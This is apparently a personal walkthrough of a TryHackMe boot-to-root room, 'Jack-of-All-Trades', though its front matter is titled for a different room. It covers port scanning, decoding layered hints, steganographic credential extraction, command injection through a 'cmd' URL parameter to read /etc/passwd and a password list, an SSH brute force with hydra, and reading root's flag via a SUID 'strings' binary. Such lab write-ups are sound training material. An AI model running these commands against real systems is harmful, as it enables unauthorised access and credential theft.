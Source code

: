 ```yaml
---

title: Walkthrough - Year of the Rabbit
published: false
---
```


Securit-Tay, Conference, Challenge, Boot-to-Root. Boot-to-root originally designed for Securi-Tay 2020.

[https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)

* * *

## Notes

> Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

- nmap give us two ports an ssh and a http server that are swapped around. 

```
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Linux 3.12 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- in order to view the site on port 22 in firefox we have to add this string to about:config ``network.security.ports.banned.override``.

- viewing the source code we find a page ``/recovery.php`` and a base64 encoded text, ``UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==``

```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

- lets save this to a list for later ``echo "u?WtKSraq" > passwords.list``

- we also find another comment on recovery.php 

```
<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
```

- decode from base32

```
45727a727a6f72652067756e67206775722070657271726167766e79662067622067757220657270626972656c207962747661206e657220757671717261206261206775722075627a72636e7472212056207861626a2075626a20736265747267736879206c6268206e65722c20666220757265722766206e20757661673a206f76672e796c2f3247694c443246
```

- and decode from ascii

```
Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F
```

- and finally ROT-13

```
Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
```

- which is a hint to use steganography to find the creds for the recovery.php page
- a few images on the homepage one of which is stego.jpg. lets check them out.
- we can use passwords.list to get the cred.txt from stego

```
Hehe. Gotcha!

You're on the right path, but wrong image!
```

- header.jpg

```
stegseek header.jpg passwords.list 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "u?WtKSraq"
[i] Original filename: "cms.creds".
[i] Extracting to "header.jpg.out".

┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/Jack-of-All-Trades]
└─$ cat header.jpg.out        
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

now we get to a page where we can possibly lfi using the paramater ``cmd``

- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=id``
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=ls%20/home`` - ``jack jacks_password_list jacks_password_list``
- ``view-source:http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat%20/home/jacks_password_list`` and save to the password.list
- ``http://10.10.86.12:22/nnxhweOV/index.php?cmd=cat /etc/passwd``

- ``hydra -l jack -P passwords.list 10.10.86.12 -s 80 ssh``

- ``[80][ssh] host: 10.10.86.12   login: jack   password: ITMJpGGIqg1jn?>@``

* * * 

## What is the user flag?

![0xskar](/assets/jack-of-all-trades05.png)

- ``scp -P 80 jack@10.10.86.12:/home/jack/user.jpg .``

* * * 

## What is the root flag?

- ``find / -perm -u=s -type f 2>/dev/null`` - ``/usr/bin/strings`` has suid set so we can read any file on the system.

- ``strings /root/root.txt``

* * * 

